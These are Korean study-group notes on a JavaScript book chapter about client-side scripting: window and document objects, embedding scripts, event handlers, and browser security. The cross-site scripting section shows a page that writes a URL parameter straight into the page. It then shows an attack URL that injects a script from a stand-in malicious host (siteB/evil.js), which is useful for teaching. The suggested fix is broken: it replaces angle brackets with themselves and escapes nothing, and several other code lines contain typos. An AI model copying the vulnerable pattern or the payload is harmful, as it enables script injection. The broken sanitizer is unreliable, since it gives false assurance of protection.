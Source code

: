 # JS STUDY 0507
----
#### Chapter 13 - 웹브라우저의 자바스크립트
>13장 웹브라우저의 자바스크립트 양승준
 14장 Window 객체 조부광
 15장 문서 스크립팅 홍지훈
 16장 CSS 이인행
 17장 이벤트다루기 박종억

###### 서론
* 클라이언트 측 자바스크립트 1부까지가 실행 환경이 정의되지 않은 자바스크립트 코드 조각 이었다면 이장은 컨텍스트 이다.
  이 장에서는 클라이언트 측 자바스크립트에 대한 개요로 시작하고. 간단한 예제를 통해 웹 문서와 웹 애플리케이션에서 자바스크립트의
  역할을 설명한다.그리고 각 2부의 각 장에 대해 설명하고 , 이후 절들은 자바스크립트 코드가 어떻게 html문서에 내장되고 실행되는지에 대한 중요한 상세 내용을 설명한다.

##### 13.1 클라이언트 측 자바스크립트

* Window 객체
  * 클라이언트 측 자바스크립트의 기능과 api에서 핵심적인 진입점이다.
    이 객체는 웹브라우저의 창이나 프레임을 나타내고, 따라서 특정 창을 Window 객체로 참조 가능하다.
    location과 같은 프로퍼티들을 제공하는데, 이 객체는 창에 현재 보이는 url을 나타내고 또한 새로 주어진 url을 불러올 수 있게 해준다.
    ```js
    window.location = "http://www.oreilly.com" //새로운 웹 페이지로 보내기 위해 location 프로퍼티에 값 설정
    ```

* alert 객체, setTimeout 객체
  * 대화상자에 메시지를 보여주는 alert, 지정된 시간 후에 실행될 함수를 등록하는 setTimeout() 같은 메서드 제공
    ```js
    setTimeout(function(){alert("hello world");},2000); //2초후에 hello world 메시지 노출
    ```

* **앞의코드에서 window가 사용되지 않았음을 주의해야하는데 클라측 자바스크립트에서는 window객체가 전역객체이다**
* document 객체
  * window 객체의 가장 중요한 프로퍼티 중 하나인 document는 창에 표시된 내용에 해당하는 document객체를 참조한다. document 객체에는, 주어진 id 속성값을 가진 문서 요소를 반환하는
    getElementById()와 같은 중요한 메서드들이 있다.
    > 문서요소란 html 태그 쌍과 그안의 내용 전부를 담고 있는 html 요소이다.

    ```js
    var timestamp = document.getElementById("timestamp");
    ```

* getElementById가 반환하는 Element객체(위로 따지면 timestamp 객체)
  * 이 객체에는 내용을 가져오고 속성값을 지정할 수 있는 또 다른 주요 프로퍼티와 메서드가 존재한다.

    ```js
    if(timestamp.firstChild == null)
      timestamp.appendChild(document.createTextNode(new Date().toString()));
      //요소가 비어있으면 이 안에 최근 날짜와 시간을 넣는다.

    timestamp.style.backgroundColor = "yellow"; // 스타일 지정한다.
    timestamp.className = "highlight"; //클래스네임바꾼다
    ```

* 이벤트 핸들러 프로퍼티도 window,document,element 객체의 중요한 프로퍼티인데, 어떤 이벤트가 발생할 때 비동기로 호출할 함수를 지정할 수 있다. 꾸미기 위해 동작을 수정하는 코드를 넣을 수 있으며 해당 프로퍼티의 이름은 on으로 시작한다.

  ```js
  timestamp.onclick = function(){this.innerHTML = new Date().toString();}
  //사용자가 클릭했을때 요소의 내용 갱신
  ```

* 이벤트 핸들러 인 onload 핸들러는 이 핸들러는 창에 보이는 문서 내용이 더 이상 불러올 것이 없는 안정된 상태여서 문서 내용을 마음대로 조작할 준비가 되었을 때 작동한다.(378p 참조)

##### 13.1.1 웹문서의 자바스크립트

* 컨테이너 역할을 하는 document 객체와 element객체를 통해서 js 프로그램은 문서 내용을 탐색하고 조작할 수 있다.
css의 스타일과 클래스를 사용하여 내용을 표현하는 방식을 변경할 수 있고, 적절한 이벤트 핸들러를 등록해서 document 요소의 동작을 정의할 수 있다.
스크립팅 가능한 내용과 표현, 동작을 모두 합쳐서 `동적HTML` 또는 `DHTML` 이라고 한다.
**웹 문서 안에서는 되도록 JS를 적게 사용해야한다**
  > JS의 적절한 역할은 정보 취득이나 전송을 더 쉽게 만들어서 사용자의 인터넷 사용 경험을 높이는 것이다.

##### 13.1.2 웹 애플리케이션의 자바스크립트

* 웹 브라우저를 운영체제랑 비슷하다는 점을 꺠우쳐야된다. 379p 참조
  이러이러해서 우리는 브라우저가 제공하는(네트워킹,그래픽,데이터스토리지) 확장된 서비스를 이용하기 위해 자바스크립트를 사용한 웹 페이지를 `웹 애플리케이션`이라고 정의할 수 있다.
  확장된 서비스 중 가장 유명한 것은 XMLHttpRequest 객체다. 이 객체를 이용해서 HTTP 요청을 짜면 브라우저 외부와 네트워킹을 할 수 있다.
  웹 앱은 페이지를 다시 불러오지 않고도 서버에서 새로운 정보를 가져오기 위해 이 서비스를 사용한다. 이런 일을 하는 웹 애플리케이션을 보통 `에이젝스(Ajax)`라고 한다

##### 13.2 HTML 안에 자바스크립트 포함하기

* 클라 측 JS를 HTML 문서 안에 내장하는 방법은 4가지이다.
  * <SCRIPT></SCRIPT> 태그 안에 직접 작성.
  * <SCRIPT> 태그의 SRC속성에 별도 파일로 정의.
  * onclick 이나 onmouseover 같은 html 이벤트 핸들러 속성 안에 작성
  * javascript:라는 특별한 프로토콜을 사용해서 url 안에 작성.

##### 13.2.1 \<script>요소에 직접 작성.
  * 381p 참조.

##### 13.2.2 외부 파일의 스크립트
  * url을 지정해서 사용한다.
    ```js
    <script src="..../util.js"></script>
    //util.js에는 순수하게 자바스크립트만 있어야 한다. <script>,html 같은것이 있으면 안된다.
    ```
  * 외부 파일을 스크립트 하는것의 장점
    * 코드상의 거대한 자바스크립트 영역이 제거되어 파일이 간단해지고 내용과 동작의 구분을 돕는다.
    * 여러 웹페이지가 스크립트 코드를 공유할 때 스크립트해서 사용하면 하나의 소스만 유지하고 코드 바뀔 떄마다 여러
      html문을 수정안해도된다.
    * 여러 페이지에서 공유한다고 해도 사용한 첫 페이지에서만 한번 내려받고 다음페이지는 브라우저 캐시에서 참조 (빠르다)
    * 어떤 웹 서버의 프로그램이나 다른 웹 서버에서 출력되는 코드를 사용할 수 있다 (인터넷 광고 활용)

  * 어떤 서버에서 스크립트 문서를 제공하고 이 문서를 다른 서버에서 받았을때 실행과 관련하여 중요한 보안 위험이 있다. 조금있다가 나올 13.6.2에서 설명할 동일 출처 보안 정책은 한 도메인 내 문서의 자바스크립트가 다른 도메인의 문서와 상호작용하는 것을 방지한다.

##### 13.2.3 스크립트 타입
  * 오직 IE만 지원하는 VBScript같은 비표준 스크립트 언어를 사용하고 싶다면 type 속성을 사용하여 스크립트 mime타입을 정의해야한다.
  ```js
  <script type="text/vbscript">
    vbscript 작성~~~~~
  </script>
  //type 속성의 기본값은 'text/javascript' 인데 굳이 필요하지 않다.

  <script language="text/vbscript">
    vbscript 작성~~~~~
  </script>
  //위의 language 속성은 폐기 되었다.

  ```

##### 13.2.4 html안의 이벤트 핸들러
  * html안에 포함된 js 코드는 웹브라우저가 html 파일을 불러올 때 한번 실행된다. html파일을 불러온 이후에 무언가 상호작용이 일어나게 하기 위해선,ㄴ 자바스크립트 프로그램이 반드시 이벤트 핸들러를 정의해야 한다.!!
  자바스크립트 코드에서 이벤트 핸들러를 등록할 때 사용하는 프로퍼티 중 onclick 같은 몇가지는 html에 같은 이름의 속성이 있다. 밑의 예제는 사용자가 체크박스의 체크 상태를 변경했을 때 적용할 이벤트 핸들러를 정의하기 위해, 체크박스 html 요소의 onclick 속성에 핸들러 코드를 명시할 수 있다.
  ```js
  <input type-"checkbox" name="options" value="giftwrap" onchange="order.options. giftwrap = this.checked;">
  //사용자가 체크박스를 체크하거나 체크해제할때마다 onchange속성에 지정된 js코드를 실행한다.
  ```

  위와같이 보통 이벤트핸들러 속성은 간단히 지정만 하거나 다른 곳에 정의한 함수를 단순히 호출하는 것으로 구성한다.
  이렇게 함으로서 실제 스크립트 코드를 <script> 태그 안에 유지가능하고 자바스크립트와 html이 섞이는 현상을 줄일 수 있다.


##### 13.6 보안
  * 자바스크립트 인터프리터가 들어 있다는 말은 웹 페이지를 불러 오는 순간 컴퓨터에서 자바스크립트 코드가 실행될 수도 있다는 의미다.
  웹 개발자가 알아야 하는 자바스크립트 보안 관련 문제점과 제약사항에 대해 다룬다.

##### 13.6.1 자카스크립트가 할 수 없는것
  * 일차적인 방어책은 특정 기능들을 제공하지 않는것이다.
    예를 들면 자바스크립트 프로그램은 클라이언트 컴퓨터의 데이터를 삭제하거나 바이러스를 침투시킬 수 없다.(html5 api는 사용자가 직접 선택한 파일을 불러오는 방법과 읽고 쓰기가 가능한 보안 전용 파일 시스템을 획득하는 방법을 제공한다.)
    같은 이유로 클라측 자바스크립트는 범용 네트워킹 기능이 전혀 없다.
    http 프로토콜을 구현할 수 는 있다.  
    .....
    두번째 방어책으로는 브라우저가 지원하는 어떤기능에 사용 제약을 두는 것이다.
      * 자바스크립트는 브라우저에서 새창을 열 수 있다. 하지만 팝업남용을 막기 위해 새 창 열기를 막아 두고 마우스 클릭같은 행동으로 직접 열게 한다.
      * 자바스크립트는 스스로 연 새 창은 다시 닫을 수 있지만 다른 창을 닫으려면 사용자가 확인 창에서 승인을 해주어야 한다.
##### 13.6.4 크로스 사이트 스크립팅
  * xss는 사이트 공격자가 목표 사이트에 html 태그나 스크립트를 집어넣는 보안 문제를 일컫는 말이다. xss 공격을 막는 것은 서버 측 웹 개발자의 업무다. 그러나 클라이언트 측 자바스크립트 프로그래머도 xss에 대해 알고 막을 수 있어야 한다.
  다음 예제는 자바스크립트를 사용하여 사용자의 이름을 보여주는 웹 페이지 이다.
  ```js
  <script>
  var name = decodeURIComponent(window.location.search.substring(1)) || "";
  documentl.write("hello" + name);
  </script>
  ```
  `window.location.search`는 `http://www.example.com/greet.html?David` 같은 형태의
  uri를 고려한 페이지다. 이경우엔 hello david를 출력하지만
  `http://www.example.com/greet.html?3Cscript%3Ealert('David')%3C/script%3E`
  이 url은 동적으로 다른 스크립트(%3C와 %3E는 꺽쇠괄호) 를 생성한다.
  이건 그냥 대화상자를 출력하는 쉬운경우이지만.  

  `http://siteA/greet.html?name=%3Cscript src=siteB/evil.js%3E%3C/script%3E`
  교차 사이트 스크립팅 공격은 이렇게 하나 이상의 사이트가 연관된다.
  사이트b 에는 사이트a에 집어넣기 위한 특별히 만든 링크가 있다. 이 스크립트 evil.js에는악의적인 사이트 b에서 제공되엇지만 지금은 사이트 a에 포함되어있다.
  따라서 a의 콘텐츠에 무엇이든 할 수 있고 페이지 외형을 망가뜨리거나 오작동을 일으킨다.

  xss공격을 막는 일반적인 방법은 동적으로 내용을 생성하기 전에 html태그를 지워 버리는 것이다.

  `name = name.replac(/</g,"<").replace(/>/g, ">");`
  간단한 이코드는 입력된 html문자열에서 꺽쇠 괄호를 치환한다.
  이렇게 문자열 안에 있는 모든 html태그를 무시하고 비활성화 하여 안전하게 출력이 가능하다.

##### 13.6.5 서비스 거부 공격(DoS attack)

* 만약 자바스크립트가 활성된 브라우저로 악의적인 웹사이트를 방문한다며느, 이 사이트는 alert() 대화상자를 무한정 띄우거나, 의미 없는 계산 혹은 무한 반복 구문을 실행하여 사용자의 cpu를 느리게 만드는 식으로 브라우저를 꼼짝 못하게 묶어둘 수 도있다.
이런 막무가내 식의 공격을 막을 수 있는 일반적인 방법은 없다(?????????? 지금은 있겠죠..)
(프로그램 으로 막기가 가능한거같음)

##### 13.7 클라이언트 측 프레임워크(415p)
* 다 구식인거같음
